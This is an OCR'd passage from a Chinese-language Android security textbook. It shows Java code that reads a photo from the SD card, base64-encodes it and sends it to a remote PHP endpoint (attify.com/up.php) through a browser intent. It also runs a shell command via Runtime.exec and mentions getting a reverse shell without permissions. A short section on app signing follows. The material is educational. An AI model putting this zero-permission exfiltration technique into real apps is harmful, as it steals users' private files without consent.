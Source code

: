 final File file = new File("/mnt/sdcard/profile.jpg");
Uri uri = Uri.fromFile(file);
ContentResolver cr = getContentResolver();
Bitmap bMap=null;
try {
InputStream is = cr.openInputStream(uri);
bMap = BitmapFactory.decodeStream(is);
if (is != null) {
is.close();
}
} catch (Exception e) {
Log.e("Error reading file", e.toString());
}
ByteArrayOutputStream baos = new ByteArrayOutputStream();
bMap.compress(Bitmap.CompressFormat.JPEG, 100, baos);
byte[] b = baos.toByteArray();
String imageString = Base64.encodeToString(b,Base64.DEFAULT);

最后，我们将启动浏览器将数据发送到我们的服务器，我们有一个 .php 文件侦听传入的数
据：
startActivity(new Intent(Intent.ACTION_VIEW,Uri.parse("http://attify.com/up.php?u="+im
ageString)));
我们还可以执行命令并以相同的方式将输出发送到远程服务器。 但是，这里需要注意的一点
是 shell 应该在应用程序的用户下运行：
// To execute commands :
String str = "cat /proc/version"; //command to be executed is stored in str.
process = Runtime.getRuntime().exec(str);
这是一个有趣的现象，因为攻击者可以获得一个反向 shell（这是一个从设备到系统的双向连
接，可以用于执行命令），而不需要任何类型的权限。

#### 1.4 应用签名

应用程序签名是 Android 的独特特性之一，由于其开放性和开发人员社区，它取得了成功。
Play 商店中有超过一百万个应用。 在 Android 中，任何人都可以通过下载 Android SDK 创建
Android 应用，然后将其发布到 Play 商店。 通常有两种类型的证书签名机制。 一个是由管理
证书颁发机构（CA）签名的，另一个是自签名证书。 没有中间证书颁发机构（CA），而开
发人员可以创建自己的证书并为应用程序签名。
在 Apple 的 iOS 应用程序模型中可以看到 CA 签名，其中开发者上传到 App Store 的每个应
用程序都经过验证，然后由 Apple 的证书签名。 一旦下载到设备，设备将验证应用程序是否
由 Apple 的 CA 签名，然后才允许应用程序运行。









